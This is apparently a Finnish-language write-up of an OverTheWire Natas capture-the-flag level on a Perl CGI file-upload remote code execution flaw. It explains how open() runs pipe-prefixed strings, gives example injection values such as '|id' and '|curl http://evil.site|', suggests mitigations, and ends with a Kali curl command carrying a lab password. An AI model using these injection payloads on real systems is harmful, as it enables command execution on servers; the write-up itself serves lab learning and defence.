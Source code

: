 
- param() on kontekstiriippuvainen → voi palauttaa eri tyyppistä dataa.
- Tämä haavoittuvuus tunnetaan esim. nimellä "Perl file upload RCE".



🔒 Perl CGI:n tiedostonkäsittelyn haavoittuvuus – tiivis kuvaus::

- Perlissä `CGI->param('file')` voi palauttaa joko **tiedostokahvan** (kun oikea tiedosto on lähetetty) tai **pelkän merkkijonon** (esimerkiksi manipuloidusta lomakkeesta). Tämä johtuu siitä, että `param()` on **kontekstiriippuvainen** funktio.

- Jos saadun muuttujan sisältö (esim. `$file`) on **merkkijono**, eikä **tiedostokahva**, mutta sitä silti käytetään `while (<$file>)` tai `open($file)` -rakenteessa, koodi **ei toimi odotetusti** ja saattaa käyttäytyä **vaarallisesti**.

- Perlissä `open()`-funktio tulkitsee merkkijonot, jotka alkavat tai loppuvat **putkimerkillä** (`|`), **suoritettaviksi komennoiksi**. Tällöin käyttäjän syöte voi johtaa **komennon suorittamiseen palvelimella** (**RCE = Remote Code Execution**).

- Hyökkääjä voi huijata järjestelmää lähettämällä `file`-parametrin arvoksi merkkijonon kuten `"|id"` tai `"|curl http://evil.site|"`, jolloin CGI-skripti saattaa suorittaa tämän **komentona**.

- Tämän vuoksi on **äärimmäisen tärkeää tarkistaa**, että `$file` on oikeasti **tiedostokahva** eikä pelkkä **merkkijono** ennen kuin sitä käytetään lukemiseen tai `open()`-kutsussa.


**Lyhyesti sanottuna**: tässä tasossa käytetään CGI-pohjaista Perl-skriptiä, joka vastaanottaa HTML-lomakkeella lähetettyjä tiedostoja. Tämä toimii vähän kuin HTML5:n ja PHP:n tiedostojen lähetys, eli lomake lähettää `file`-nimisen kentän palvelimelle. Taustalla käytetty CGI-moduuli käsittelee tämän kentän, mutta siinä on haavoittuvuus: jos käyttäjä huijaa ja lähettää tiedoston nimen sijaan komennon (esim. `|ls`), voi tämä syöte päätyä suoraan Perl-koodiin ja suorittaa komentorivikäskyjä. Kyseessä on siis tiedostonlähetykseen liittyvä injektiohyökkäys (RCE).


**Jos parannuksena**, tiedostojen upottamisessa pitää käyttää tiettyä funktiota, joka poistaa mahdollisia polkuja ja estääkseen käyttäjän manipulointia tiedostojen polkua esim. linux termistönä ja komentona: `.../` eli tiedostojen injektiota. Toisekseen **tiedostopäätteet** joko rajoitettu tai sallittu vain turvallisiin tiedostotyyppiin mm. **.pdf** ja **.csv** , että validointia ja sanitointia joka sallii tiedostonnimensä ja lauseketta esim. `$filename =~ /^[a-zA-Z0-9_-]+\.(csv|txt)$/` - Tällä estetään haitallisten tiedostonimien syöttäminen.

**Muita huomioita**: Jos ohjelma tekee yhteyksiä ulkoisiin palveluihin tai suorittaa komentorivikäskyjä (esim. curl), nämä kutsut tulee tehdä kontrolloidusti. Käyttäjän syötteet tulee rajata valkoisella listalla (whitelist), jolloin vain ennalta hyväksytyt komennot tai URL-osoitteet sallitaan, ja vaaralliset komentorivit estetään.



## kali linux testausta - START HERE;

Tässä alkuun normaalia, pientä testausta ja tarkistusta

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y "http://natas7.natas.labs.overthewire.org" 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.58 (Ubuntu) Server at natas7.natas.labs.overthewire.org Port 80</address>
</body></html>

```